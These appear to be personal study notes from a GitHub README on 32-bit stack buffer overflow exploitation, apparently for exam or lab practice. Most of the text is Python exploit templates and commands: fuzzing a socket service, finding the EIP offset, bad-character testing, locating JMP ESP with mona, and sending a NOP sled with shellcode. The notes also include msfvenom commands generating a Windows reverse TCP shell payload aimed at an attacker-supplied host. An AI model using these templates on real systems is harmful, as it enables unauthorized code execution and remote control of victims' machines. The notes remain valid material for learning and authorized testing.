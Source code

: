 # BufferOverflow Notes
Thanks to Legacyy for being a great teacher! Please check out his buffer overflow guide!  
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### 1 - Creating a socket to test the program.

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf += b"<FUNC> "
buf += b"A"*1000

s.send(buf)
print(s.recv(1024))
```

### 2 - Creating your cyclic pattern and overwriting your EIP

```
msf-pattern_create -l 1234
```
```
msf-pattern_offset -q <EIPAddress>
```

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

cyclic_pattern = b"AddCyclicPattern"

buf = b""
buf += b"<FUNC> "
buf += cyclic_pattern

s.send(buf)
print(s.recv(1024))
```

### 3 - Testing for bad characters



```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

badchar_test = ""
badchars = [0x00,0x0D] 

for i in range(0x00, 0xFF + 1): # range(0x00, 0xFF) only returns up to 0xFE
        if i not in badchars:
                badchar_test += chr(i)

with open("badchars.bin", "wb") as f:
    f.write(badchar_test)

offset = <OFFSET>

buf = b""
buf += b"<FUNC> "
buf += "A" * offset
buf += b"BBBB"
buf += badchar_test

s.send(buf)
print(s.recv(1024))
```

### 4 - Finding your JMP ESP

```
!mona compare -a esp -f "c:\path\to\badchars.bin"
```

```
!mona jmp -r esp -cpb "\x00\x0A"
```

### 5 - Testing command execution

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset
buf += jmp_esp
buf += b"\xCC\xCC\xCC"

s.send(buf)
print(s.recv(1024))
```

```
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

```
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="<IP>" LPORT=<PORT> EXITFUNC=thread
```

```python
import socket
import struct

HOST = "<Remote IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

shellcode_calc =  b""
shellcode_calc += b"<ShellcodePayload>"

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset 
buf += jmp_esp
buf += b"\x90" * 100
buf += shellcode_calc

s.send(buf)
print(s.recv(1024))
```

### Resources:
https://ir0nstone.gitbook.io/notes/  
http://exploit.education/phoenix/stack-zero/  
